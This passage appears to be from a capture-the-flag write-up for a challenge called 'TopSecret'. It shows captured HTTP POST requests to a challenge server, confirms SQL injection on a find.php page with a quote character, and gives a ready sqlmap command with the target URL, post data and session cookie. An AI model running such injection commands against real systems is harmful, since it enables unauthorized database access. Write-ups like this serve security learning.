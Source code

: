 ```
POST http://162.243.171.85/find.php HTTP/1.1
Host: 162.243.171.85
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:42.0) Gecko/20100101 Firefox/42.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://162.243.171.85/find.php
Cookie: PHPSESSID=e6f1641f4aeb281f0cf7287dc4c9e6be6aee4c0901514340b51f76d406b5a7228adb4187843f80fc378434c575dd47794f4d25c7bca81659670d48533dde583f
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 14

username=admin
```


<figure>
   <img src="{{site.url}}/images/rc3/TopSecret/burp_home.png" />
   <figcaption>Home Request</figcaption>
</figure>

```
POST http://162.243.171.85/ HTTP/1.1
Host: 162.243.171.85
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:42.0) Gecko/20100101 Firefox/42.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://162.243.171.85/
Cookie: PHPSESSID=e6f1641f4aeb281f0cf7287dc4c9e6be6aee4c0901514340b51f76d406b5a7228adb4187843f80fc378434c575dd47794f4d25c7bca81659670d48533dde583f
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 12

secret=apple
```

The only thing we should take note of, is that both of these pages use **POST** methods to retrieve data, where "secret" and "username" are the pieces of data being sent. We can also see there is a **PHPSESSID** to record the current user. Now let's try some exploitation. First thing I tried was SQL injection. Let's try escaping the SQL query using a **'** character.

[![sqli]({{site.url}}/images/rc3/TopSecret/sqli.png)]({{site.url}}/images/rc3/TopSecret/sqli.png)

This proves the Friends page is vulnerable to **SQL injection**. I right clicked on the request in Burp: Right Click > Send to SQLMapper (a free Burp Extension by the CO2 Suite) and copied the SqlMap command. You will notice a data section for post parameters and a cookie value.

[![sqlmapper]({{site.url}}/images/rc3/TopSecret/sqlmapper.png)]({{site.url}}/images/rc3/TopSecret/sqlmapper.png)

```
sqlmap -u 'http://162.243.171.85:80/find.php' --data='username=admin' --cookie='PHPSESSID=982677f8035354b556b6d80b00353187b77a997cd28e49bfda777e5c91f80dafc61114c392a70b95bd4fe12ddb727ab9f9d19032a8a21f393517af1635d24f9d'
```
